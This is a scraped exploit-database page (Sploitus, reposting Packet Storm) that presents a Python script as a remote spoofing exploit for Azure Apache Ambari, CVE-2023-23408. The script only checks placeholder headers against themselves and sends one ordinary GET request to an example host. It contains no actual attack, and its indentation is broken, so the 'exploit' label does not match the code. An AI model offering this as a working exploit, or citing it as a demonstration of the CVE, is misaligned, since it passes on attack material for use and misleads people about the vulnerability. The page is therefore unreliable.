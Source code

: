 ```yaml
---
title: Azure Apache Ambari 2302250400 Spoofing exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:173134&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-06-28
fetch_date: 2025-10-04T11:46:16.117657
---
```


# Azure Apache Ambari 2302250400 Spoofing exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Azure Apache Ambari 2302250400 Spoofing CVE-2023-23408

2023-06-27 | CVSS 4.5

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:173134
# Exploit Title: Azure Apache Ambari 2302250400 - Spoofing
# Date: 2023-06-23
# country: Iran
# Exploit Author: Amirhossein Bahramizadeh
# Category : Remote
# Vendor Homepage:
Microsoft
Apache Ambari
Microsoft azure Hdinsights
# Tested on: Windows/Linux
# CVE : CVE-2023-23408

import requests

# Set the URL and headers for the Ambari web interface
url = "https://ambari.example.com/api/v1/clusters/cluster_name/services"
headers = {"X-Requested-By": "ambari", "Authorization": "Basic abcdefghijklmnop"}

# Define a function to validate the headers
def validate_headers(headers):
if "X-Requested-By" not in headers or headers["X-Requested-By"] != "ambari":
return False
if "Authorization" not in headers or headers["Authorization"] != "Basic abcdefghijklmnop":
return False
return True

# Define a function to send a request to the Ambari web interface
def send_request(url, headers):
if not validate_headers(headers):
print("Invalid headers")
return
response = requests.get(url, headers=headers)
if response.status_code == 200:
print("Request successful")
else:
print("Request failed")

# Call the send_request function with the URL and headers
send_request(url, headers)
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)